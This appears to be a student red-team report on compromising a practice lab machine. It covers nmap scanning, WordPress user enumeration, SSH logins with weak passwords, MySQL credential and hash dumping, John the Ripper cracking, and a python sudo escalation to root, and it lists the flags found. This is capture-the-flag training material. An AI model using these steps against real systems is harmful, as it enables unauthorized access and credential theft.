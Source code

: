 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS -sV -O 192.168.1.110
```

![](FinalProjectImages/nmapsSsVO.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 open ssh
  - Port 80 open http
  - Port 111 open rpcbind
  - Port 139 open netbios-ssn
  - Port 445 open netbios-ssn


The following vulnerabilities were identified on each target:
- Target 1
  - Enumeration
  - Weak Passwords
  - Unsalted Password Hashes
  - Escalation Privilege/ Python Sudo Access


### Exploitation

 The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
 - Enumerate the WordPress site using WPSCAN
```
$ wpscan --url http://192.168.1.110/wordpress -eu 
``` 
![](FinalProjectImages/wpscan.png) 

- There are two users. Michael and Steven

![](FinalProjectImages/enumerateusers.png)

 - Use the command ```ssh michael@192.168.1.110``` and the password 'michael' to gain access
 
 ![](FinalProjectImages/sshmichael.png)
 
 
 - By traversing the directories two flags are exposed:
   - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}
     - **Exploit Used**
       - This flag was found in /var/www/html
       - `cat service.html`
       
   - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
     - **Exploit Used**
       - This flag was found in /var/www/
       - `cat flag2.txt`

 ![](FinalProjectImages/htmldirectory.png)
 ![](FinalProjectImages/flag1.png)
 ![](FinalProjectImages/catflag2.png)
      
- From the /var/www/html/ directory `cd wordpress` to find the `wp-config.php` file
 - This is where the MySQL username and password is located. 
 - Use the found username: root and password: R@v3nSecurity
 - Inside mysql, the following commands lead to password hashes and a flag3.txt
  ``` bash
     show databases;
     use wordpress;
     show tables;
     select * from wp_users;
     #TODO: insert screenshot
  ```
   - `flag3.txt`:{afc01ab56b50591e7dccf93122770cd2}
     - **Exploit Used**
       - Used the traversal of directories in mysql to obtain flag 3
       `select * from wp_posts`
       #TODO: include screenshot
 - After obtaining unsalted password hashes from 'wp_users', create the file 'wp_hashes.txt` containing the hashes to crack using john the ripper. 
 - john the ripper cracked the password for the user steven. The password is 'pink84'
 - Then, use the command `ssh steven@192.168.1.110' and the password 'pink84' to gain access to steven's user.
 - Check for permissions using `sudo -l`
 - steven can use sudo using python
 - Escalate privileges to gain root access and find flag 4
   - `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
     - **Exploit Used**
       - Unsalted User Password Hash and Privilege Escalation
       - `sudo python -c 'import pty;pty.spawn("/bin/sh")`
